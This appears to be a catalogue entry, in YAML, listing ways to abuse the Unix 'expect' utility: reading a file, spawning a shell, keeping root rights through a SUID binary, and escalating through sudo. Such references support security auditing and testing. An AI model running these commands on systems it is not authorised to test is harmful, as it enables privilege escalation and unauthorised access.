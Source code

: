 ```yaml
---
functions:
  file-read:
    - description: read only first line of file.
      code: |
        LFILE=file_to_read
        expect $LFILE
  shell:
    - code: expect -c 'spawn /bin/sh;interact'
  suid:
    - code: ./expect -c 'spawn /bin/sh -p;interact'
  sudo:
    - code: sudo expect -c 'spawn /bin/sh;interact'
---
```

